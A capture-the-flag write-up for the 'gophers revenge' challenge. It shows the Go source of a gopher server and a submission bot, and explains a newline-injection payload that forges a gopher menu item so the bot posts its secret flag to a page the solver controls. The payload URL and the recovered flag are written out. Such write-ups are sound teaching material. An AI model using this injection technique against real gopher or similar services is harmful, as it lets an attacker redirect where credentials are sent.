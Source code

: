 # gophers revenge

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/76e7fabd-18bb-4ad4-a4d7-3c9d3cf57ae9)

main.go
```go
package main

import (
	"fmt"
	"log"
	"net/url"
	"strings"

	"git.mills.io/prologic/go-gopher"
)

func index(w gopher.ResponseWriter, r *gopher.Request) {
	w.WriteInfo("Welcome to the flag submitter!")
	w.WriteInfo("Please submit all your flags!")
	w.WriteItem(&gopher.Item{
		Type:        gopher.DIRECTORY,
		Selector:    "/submit/user",
		Description: "Submit flags here!",
	})
	w.WriteItem(&gopher.Item{
		Type:        gopher.FILE,
		Selector:    "URL:https://ctf.amateurs.team/",
		Description: "Get me more flags lackeys!!",
	})
	w.WriteItem(&gopher.Item{
		Type:        gopher.DIRECTORY,
		Selector:    "/",
		Description: "Nice gopher proxy",
		Host:        "gopher.floodgap.com",
		Port:        70,
	})
}

func submit(w gopher.ResponseWriter, r *gopher.Request) {
	name := strings.Split(r.Selector, "/")[2]
	undecoded, err := url.QueryUnescape(name)
	if err != nil {
		w.WriteError(err.Error())
	}
	w.WriteInfo(fmt.Sprintf("Hello %s", undecoded))
	w.WriteInfo("Please send a post request containing your flag at the server down below.")
	w.WriteItem(&gopher.Item{
		Type:        gopher.FILE,
		Selector:    "URL:http://amt.rs/gophers-catcher-not-in-scope",
		Description: "Submit here! (gopher doesn't have forms D:)",
		Host:        "error.host",
		Port:        1,
	})
}

func main() {
	mux := gopher.NewServeMux()

	mux.HandleFunc("/", index)
	mux.HandleFunc("/submit/", submit)

	log.Fatal(gopher.ListenAndServe("0.0.0.0:7000", mux))
}
```

bot.go
```go
package main

import (
	"bytes"
	"crypto/rand"
	"fmt"
	"log"
	"net/http"
	"net/url"
	"os"
	"strings"

	"git.mills.io/prologic/go-gopher"
	"golang.org/x/net/publicsuffix"
)

var flag = []byte{}

func randomString(length int) string {
	b := make([]byte, length+2)
	rand.Read(b)
	return fmt.Sprintf("%x", b)[2 : length+2]
}

func main() {
	content, err := os.ReadFile("flag.txt")
	if err != nil {
		log.Fatal(err)
	}
	flag = content

	http.HandleFunc("/submit", Submit)
	http.HandleFunc("/", Index)
	if err := http.ListenAndServe(":8080", nil); err != nil {
		log.Fatal(err)
	}
}

func Index(w http.ResponseWriter, r *http.Request) {
	http.ServeFile(w, r, "index.html")
}

func Submit(w http.ResponseWriter, r *http.Request) {
	r.ParseForm()
	u, err := url.Parse(r.Form.Get("url"))
	if err != nil || u.Host != "amt.rs:31290" {
		w.Write([]byte("Invalid url"))
		return
	}

	w.Write([]byte(Visit(r.Form.Get("url"))))
}

func Visit(gopherURL string) string {
	fmt.Println(gopherURL)
	res, err := gopher.Get(gopherURL)
	if err != nil {
		return fmt.Sprintf("Something went wrong: %s", err.Error())
	}

	rawURL, _ := strings.CutPrefix(res.Dir.Items[2].Selector, "URL:")
	fmt.Println(rawURL)

	u, err := url.Parse(rawURL)

	etldpo, err2 := publicsuffix.EffectiveTLDPlusOne(u.Host)
	if err != nil || err2 != nil || etldpo != "amt.rs" {
		return "Invalid url"
	}

	resp, err := http.Post(u.String(), "application/x-www-form-urlencoded", bytes.NewBuffer([]byte(fmt.Sprintf("username=%s&password=%s", randomString(20), flag))))

	if err != nil {
		return "Failed to make request"
	}

	cookies := resp.Cookies()
	token := ""
	for _, c := range cookies {
		if c.Name == "token" {
			token = c.Value
		}
	}

	if token != "" {
		return fmt.Sprintf("Thanks for sending in a flag! Use the following token once i get the gopher-catcher frontend setup: %s", token)
	} else {
		return "Something went wrong, my sever should have sent a cookie back but it didn't..."
	}
}
```

## solution

the original exploit in bot.go has been patched but there is a new exploit

the exploit is found in main.go:

```go
func submit(w gopher.ResponseWriter, r *gopher.Request) {
	name := strings.Split(r.Selector, "/")[2]
	undecoded, err := url.QueryUnescape(name)
	if err != nil {
		w.WriteError(err.Error())
	}
	w.WriteInfo(fmt.Sprintf("Hello %s", undecoded))
	w.WriteInfo("Please send a post request containing your flag at the server down below.")
	w.WriteItem(&gopher.Item{
		Type:        gopher.FILE,
		Selector:    "URL:http://amt.rs/gophers-catcher-not-in-scope",
		Description: "Submit here! (gopher doesn't have forms D:)",
		Host:        "error.host",
		Port:        1,
	})
}
```

can you see it?

the first writeinfo is key, because it writes a string and so we can input any text there

in bot.go:

```go
	rawURL, _ := strings.CutPrefix(res.Dir.Items[2].Selector, "URL:")
	fmt.Println(rawURL)
```

it takes the 3rd item from the top (a,b,THIS ONE,d,etc) and takes the URL of it

to change the 3rd item, we need to input newlines into the first writeinfo string to shift other items down one

then, we need to fake a gopher item and give it a selector with a URL that redirects to where we want it to go

my payload was `gopher://amt.rs:31290/1/submit/?test=%0a0q%0a0wdwdq%09URL:https%3A%2F%2Fcps%2eamt%2Ers%2fregister.php%0a`<br>
we have to redirect to an amt.rs site because of the following code in bot.go:

```go
	u, err := url.Parse(rawURL)

	etldpo, err2 := publicsuffix.EffectiveTLDPlusOne(u.Host)
	if err != nil || err2 != nil || etldpo != "amt.rs" {
		return "Invalid url"
	}
```

we cannot avoid this...

so we ended up changing the 3rd item to be a url to cps.amt.rs, which accepts a form of username,password which allows us to login and get the password

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/3bd593b3-c459-4620-9fe2-fbd3288af572)

in dev panel:

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/8842054e-6b10-46e5-b947-c8a1bb5ca7a2)

however, the flag is incorrect

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/bb074796-b957-4c4d-9945-c498b15617c4)

this is because the post request uses Sprintf and substitutes in the flag, and if the flag contains special chars, it messes everything up!

it took me waaaay too long (~5hrs) to realize that there was a space here and that the cps chall was not hiding something from me

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/34223b9d-90c9-455f-bd2d-28521ec0a0c6)


i ended up just solving the cps chall even though it was worth 0 points because i wanted to solve gopher, but it didnt give me the flag

i eventually realized that "+" looked like a "t", and also put a space char instead of a regular one because it is special char

the flag is `amateursCTF{ye5._+h1s_1s_g0pher_h3ll}`

this was, however, the hardest chall i solved and i am extremely proud of myself for solving it
